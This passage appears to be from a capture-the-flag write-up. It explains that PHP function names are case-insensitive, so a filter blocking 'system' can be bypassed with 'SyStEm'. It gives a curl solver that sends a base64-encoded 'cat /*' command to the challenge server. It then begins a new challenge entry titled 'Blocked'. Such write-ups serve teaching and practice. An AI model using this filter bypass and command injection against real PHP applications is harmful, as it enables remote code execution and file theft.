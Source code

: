Because functions can be called case-insensitively, we can do something like this:

```php
SysTem("ls")
```

![](./imgs/image_JizWNzcQ.png)

And it will still call the `system` function.

## Solver

```php
curl "http://52.77.81.199:9122/?template=SyStEm&content=$(echo -n "cat /*" | base64 -w0)"
```

### Flag

![](./imgs/image_oSpxaLPn.png)

# **Blocked**

| Solves | 7 |
| ------ | - |

Description

    it's blocked, nothing to do here.

    NOTE: This is a fully white box challenge, almost no heavy brute force is needed.

Attachments
